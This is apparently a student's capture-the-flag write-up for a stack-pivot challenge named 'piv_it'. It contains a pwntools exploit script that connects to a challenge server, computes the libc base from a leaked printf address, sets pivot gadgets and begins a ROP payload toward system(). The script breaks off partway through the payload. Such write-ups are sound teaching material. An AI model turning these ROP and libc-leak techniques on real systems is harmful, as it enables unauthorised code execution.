 ```
p.sendline()

# then the program returns to main and we get a shell

p.interactive()
```

piv_it
===========================
Flag: FLAG{}

General overview of problems faced
-------------------------------------
When trying to get the stack pivot to work, the main issue I encountered was just due to me misunderstanding what ret 0x??; meant. Initially I thought the number was specifying the number of stack elements that were popped off the stack after the return, but instead the number was specifying the number of bytes that were popped off (ie, the number added to esp).

Script/Command used (Writeup)
------------------
```
from pwn import *

PROG_NAME = "./piv_it"
REMOTE_IP = "plsdonthaq.me"
REMOTE_PORT = 8002
REMOTE_LIBC = "./libc6_2.27-3ubuntu1_i386.so"
LOCAL_LIBC = "/lib/i386-linux-gnu/libc.so.6"

if args.REMOTE:
    p = remote(REMOTE_IP, REMOTE_PORT)
    elf = ELF(PROG_NAME)
    libc = ELF(REMOTE_LIBC)
    pivot_gadget = 0x0007540d # ret 0x28b;
    ret_gadget = 0x00000417 # ret;
else:
    p = process(PROG_NAME)
    elf = p.elf
    libc = ELF(LOCAL_LIBC)
    pivot_gadget = 0x000af05b # ret 0x28b;
    ret_gadget = 0x0009f43d # ret;

if args.ATTACH:
	gdb.attach(p, '''break main''')

# take the libc printf address leak
p.recvuntil("At: ")
printf_libc = int(p.recvline().rstrip(), 16)
libc.address = printf_libc - libc.symbols['printf']

'''
main has the following code:
sub     esp, 0x4
push    0x80 {var_338}
lea     eax, [ebp-0xa0 {var_a8}]
push    eax {var_a8} {var_33c_1}
push    0x0
call    read

we load our system() rop payload into this bigger buffer, since 0x80 bytes are read
'''

payload = b'AAA'
payload += p32(libc.address+ret_gadget)
```